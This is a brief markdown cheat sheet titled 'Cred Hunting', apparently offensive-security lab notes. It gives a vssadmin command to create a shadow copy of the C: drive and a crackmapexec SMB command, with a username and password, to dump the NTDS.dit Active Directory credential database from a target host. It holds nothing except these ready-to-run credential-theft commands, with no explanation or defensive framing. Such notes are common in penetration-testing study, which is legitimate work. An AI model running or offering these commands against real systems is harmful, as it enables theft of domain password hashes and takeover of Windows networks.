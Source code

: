 # Cred Hunting

## Creating Shadow Copy of C:

```powershell
PS C:\> vssadmin CREATE SHADOW /For=C:
```

## Stealing NTDS.dit using CME

```bash
crackmapexec smb 10.129.201.57 -u amogus -p 1mp0st3r --ntds
```

